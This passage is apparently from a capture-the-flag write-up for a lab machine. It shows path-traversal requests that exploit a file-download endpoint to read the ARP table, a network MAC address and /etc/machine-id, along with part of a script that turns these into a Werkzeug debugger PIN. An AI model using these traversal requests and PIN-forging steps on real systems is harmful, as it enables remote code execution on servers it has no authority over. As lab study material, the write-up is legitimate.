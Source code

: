 ```python
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

`username`, `getattr(mod, '__file__', None)`, `str(uuid.getnode())`, `get_machine_id()` should be modified. I can collect these informations exploiting LFI vulnerability.

```shell
GET /download?fn=../proc/net/arp HTTP/1.1
<SNIP>

===================================================

IP address       HW type     Flags       HW address            Mask     Device
10.10.10.2       0x1         0x2         00:50:56:b9:f4:88     *        eth0
```

The ethernet device name is `eth0`.

```shell
GET /download?fn=../sys/class/net/eth0/address HTTP/1.1
<SNIP>

===================================================

00:50:56:94:05:36
```

The MAC address is `00:50:56:94:05:36`

```python-repl
>>> 0x005056940536
345049924918
```

The MAC address can be transformed to decimal : `345049924918`.

```shell
GET /download?fn=../etc/machine-id HTTP/1.1
<SNIP>

===================================================

ed5b159560f54721827644bc9b220d00
```

machine_id is `ed5b159560f54721827644bc9b220d00`

I reviewed Hacktricks again, and found the comment at last.

![](attachments/agile_8.png)
